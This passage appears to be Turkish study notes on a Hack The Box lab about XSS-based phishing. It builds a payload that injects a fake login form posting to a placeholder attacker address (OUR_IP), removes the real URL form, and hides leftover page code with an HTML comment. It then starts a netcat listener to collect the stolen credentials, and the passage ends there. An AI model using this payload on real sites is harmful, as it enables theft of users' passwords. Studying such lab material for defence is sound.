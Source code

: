Kaldırmak istediğimiz HTML öğesinin kimliğini bulmak için [CTRL+SHIFT+C] tuşlarına tıklayarak Page Inspector Picker'ı açabilir ve ardından ihtiyacımız olan öğeye tıklayabiliriz:


![Pasted image 20241116033746.png](/img/user/resimler/Pasted%20image%2020241116033746.png)

Hem kaynak kodda hem de üzerine gelinen metinde gördüğümüz gibi url formu urlform id'sine sahiptir:

```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```

Artık URL formunu kaldırmak için bu kimliği remove() işleviyle kullanabiliriz:

```javascript
document.getElementById('urlform').remove();
```

Şimdi, bu kodu önceki JavaScript kodumuza eklediğimizde (document.write işlevinden sonra), bu yeni JavaScript kodunu payload'umuzda kullanabiliriz:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

Güncellenmiş JavaScript kodumuzu enjekte etmeye çalıştığımızda, URL formunun gerçekten de artık görüntülenmediğini görüyoruz:

![Pasted image 20241116033834.png](/img/user/resimler/Pasted%20image%2020241116033834.png)

Ayrıca, enjekte edilen giriş formumuzdan sonra hala orijinal HTML kodundan bir parça kaldığını görüyoruz. Bu, XSS payload'umuzdan sonra bir HTML açılış yorumu ekleyerek basitçe yorum dışı bırakılarak kaldırılabilir:

```html
...PAYLOAD... <!-- 
```

Gördüğümüz gibi, bu işlem orijinal HTML kodunun kalan kısmını kaldırır ve payload'umuz hazır olmalıdır. Sayfa artık yasal olarak bir giriş gerektiriyormuş gibi görünüyor:

![Pasted image 20241116033906.png](/img/user/resimler/Pasted%20image%2020241116033906.png)


### Kimlik Bilgisi Çalınması

```shell-session
M1R4CKCK@htb[/htb]$ sudo nc -lvnp 80
listening on [any] 80 ...
```

Şimdi test:test kimlik bilgileriyle giriş yapmayı deneyelim ve elde ettiğimiz netcat çıktısını kontrol edelim (XSS yükündeki OUR_IP'yi gerçek IP'nizle değiştirmeyi unutmayın):
